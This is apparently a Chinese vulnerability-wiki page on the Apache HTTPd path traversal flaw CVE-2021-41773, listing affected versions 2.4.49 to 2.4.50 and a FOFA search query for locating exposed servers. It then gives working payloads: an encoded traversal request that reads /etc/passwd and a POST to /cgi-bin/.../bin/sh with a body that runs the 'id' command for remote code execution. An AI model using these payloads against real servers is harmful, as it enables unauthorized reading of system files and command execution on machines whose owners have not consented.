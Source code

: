 ```yaml
---
title: Apache HTTPd 路径穿越漏洞 CVE-2021-41773
---
```


# Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>Apache HTTPd  2.4.49~2.4.50版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## 漏洞复现

通过响应包获取 Apache版本

![img](/assets/PeiQi-Wiki/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094317679.png)

验证POC

```php
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1633685786125-ff050193-f7dd-45a9-a867-8f0c801f0024.png)

开启CGI的情况下可RCE

```php
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```